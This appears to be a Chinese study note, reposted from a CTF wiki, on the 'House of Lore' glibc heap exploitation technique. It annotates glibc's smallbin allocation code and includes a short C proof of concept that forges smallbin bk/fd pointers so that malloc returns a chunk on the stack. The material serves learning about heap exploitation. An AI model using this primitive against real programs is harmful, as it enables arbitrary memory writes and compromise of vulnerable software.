


继续wiki搬运学习

https://wiki.x10sec.org/pwn/linux/glibc-heap/house_of_lore-zh/

# House of Lore

## 概述 

House of Lore 攻击与 Glibc 堆管理中的 Small Bin 的机制紧密相关。

House of Lore 可以实现分配任意指定位置的 chunk，从而修改任意地址的内存。

House of Lore 利用的前提是需要控制 Small Bin Chunk 的 bk 指针，并且控制指定位置 chunk 的 fd 指针。


其实本质就是small bin双链表的伪造，注意检查机制就行

## 基本原理 

如果在 malloc 的时候，申请的内存块在 small bin 范围内，那么执行的流程如下


```c
    /*
       If a small request, check regular bin.  Since these "smallbins"
       hold one size each, no searching within bins is necessary.
       (For a large request, we need to wait until unsorted chunks are
       processed to find best fit. But for small ones, fits are exact
       anyway, so we can check now, which is faster.)
     */

    if (in_smallbin_range(nb)) {
        // 获取 small bin 的索引
        idx = smallbin_index(nb);
        // 获取对应 small bin 中的 chunk 指针
        bin = bin_at(av, idx);
        // 先执行 victim= last(bin)，获取 small bin 的最后一个 chunk
        // 如果 victim = bin ，那说明该 bin 为空。
        // 如果不相等，那么会有两种情况
        if ((victim = last(bin)) != bin) {
            // 第一种情况，small bin 还没有初始化。
            if (victim == 0) /* initialization check */
                // 执行初始化，将 fast bins 中的 chunk 进行合并
                malloc_consolidate(av);
            // 第二种情况，small bin 中存在空闲的 chunk
            else {
                // 获取 small bin 中倒数第二个 chunk 。
                bck = victim->bk;
                // 检查 bck->fd 是不是 victim，防止伪造
                if (__glibc_unlikely(bck->fd != victim)) {
                    errstr = "malloc(): smallbin double linked list corrupted";
                    goto errout;
                }
                // 设置 victim 对应的 inuse 位
                set_inuse_bit_at_offset(victim, nb);
                // 修改 small bin 链表，将 small bin 的最后一个 chunk 取出来
                bin->bk = bck;
                bck->fd = bin;
                // 如果不是 main_arena，设置对应的标志
                if (av != &main_arena) set_non_main_arena(victim);
                // 细致的检查
                check_malloced_chunk(av, victim, nb);
                // 将申请到的 chunk 转化为对应的 mem 状态
                void *p = chunk2mem(victim);
                // 如果设置了 perturb_type , 则将获取到的chunk初始化为 perturb_type ^ 0xff
                alloc_perturb(p, bytes);
                return p;
            }
        }
    }
```

从下面的这部分我们可以看出


```c
                // 获取 small bin 中倒数第二个 chunk 。
                bck = victim->bk;
                // 检查 bck->fd 是不是 victim，防止伪造
                if (__glibc_unlikely(bck->fd != victim)) {
                    errstr = "malloc(): smallbin double linked list corrupted";
                    goto errout;
                }
                // 设置 victim 对应的 inuse 位
                set_inuse_bit_at_offset(victim, nb);
                // 修改 small bin 链表，将 small bin 的最后一个 chunk 取出来
                bin->bk = bck;
                bck->fd = bin;
```

如果我们可以修改 small bin 的最后一个 chunk 的 bk 为我们指定内存地址的 fake chunk，并且同时满足之后的 bck->fd != victim 的检测，那么我们就可以使得 small bin 的 bk 恰好为我们构造的 fake chunk。也就是说，当下一次申请 small bin 的时候，我们就会分配到指定位置的 fake chunk。


示例代码

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <assert.h>


int main(int argc, char * argv[]){
	intptr_t* stack_buffer_1[4] = {0};
	intptr_t* stack_buffer_2[4] = {0};
	intptr_t *victim = malloc(0x100);
	malloc(0x10);
	free(victim);
	malloc(0x400);
	victim[1] = &stack_buffer_1; // victim_chunk_addr->bk = stack_buffer_1_addr
	stack_buffer_1[2] = victim-2; //stack_buffer_1->fd = victim_chunk_addr
	stack_buffer_1[3] = &stack_buffer_2; // stack_buffer_1->bk = stack_buffer_2_addr
	stack_buffer_2[2] = &stack_buffer_1;//stack_buffer_2->fd = stack_buffer_1_addr
//===============================line=================================
	intptr_t *p1 = malloc(0x100);
	intptr_t *p2 = malloc(0x100);//chunk on the stack
	malloc(0x100); //failed : bck->fd != victim
}
```

执行到line的时候的草图




最后一次malloc(0x100)会crash因为访问非法区域当然后面这个bck->fd != victim条件也不会满足




最终效果：申请到了栈上的堆块